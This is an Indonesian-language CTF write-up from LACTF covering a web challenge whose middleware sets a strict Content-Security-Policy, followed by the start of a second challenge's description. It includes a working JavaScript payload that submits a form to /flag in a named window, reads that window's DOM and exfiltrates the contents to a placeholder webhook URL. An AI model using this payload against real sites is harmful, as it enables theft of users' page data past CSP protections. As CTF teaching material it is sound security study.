Tetapi kita melihat bahwa ada middle ware yang menambahkan header CSP pada setiap request yang masuk.

```javascript
app.use((req, res, next) => {
    res.set(
        "Content-Security-Policy",
        "default-src 'none'; script-src 'unsafe-inline'"
    );
    next();
});
```

Disini yang menarik adalah CSP `default-src 'none'`. CSP `default-src 'none'` akan menghalangi kita untuk mengakse page `/flag` sehingga kita tidak bisa melakukan CSRF dengan cara biasa.
> Untuk refrensi csp default-src bisa dilihat disini [default-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src)

#### Exploit

CTF ini baru saya selesaikan saat LACTF sudah berakhir, saya tidak tahu bagaimana cara mengerjakannya, tetapi setelah bertanya di channel writeup saya diberikan referensi berikut

> https://lalitjc.wordpress.com/2013/05/03/2/

Saya juga diberikan contoh sebagai berikut.

```htmlbars
<form method="post" id="theForm" action="/flag" target='a'>
</form>
<script> 
    let w = window.open('','a');
    document.getElementById('theForm').submit();
    setTimeout(()=>{
        document.location= 'http://webhook?'+w.document.body.innerHTML
    },500);
</script>
```

Sedikit penjelasan dari payuload di atas. Payload di atas akan memunculkan window baru menggunakan `window.open` dia akan mengkaitkannya dengan `target=a` yang ada di `form` element, sehingga saat kita men-submit form tersebut menggunakan `document.getElementById('theForm').submit();` dia akan terkait dengan variable `w` dan kita akan bisa mengakse DOM dari page baru tersebut.

![](https://i.imgur.com/NTh8PTA.png)

Setelah itu kami menggunakan payload tersebut dan tidak lupa mengganti `document.location` ke webhook kami. Kita kirim url dari payload kita, dan kita akan mendapatkan flagnya.

![](https://i.imgur.com/LNikobb.png)

## queue up! - web

### Description
I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.
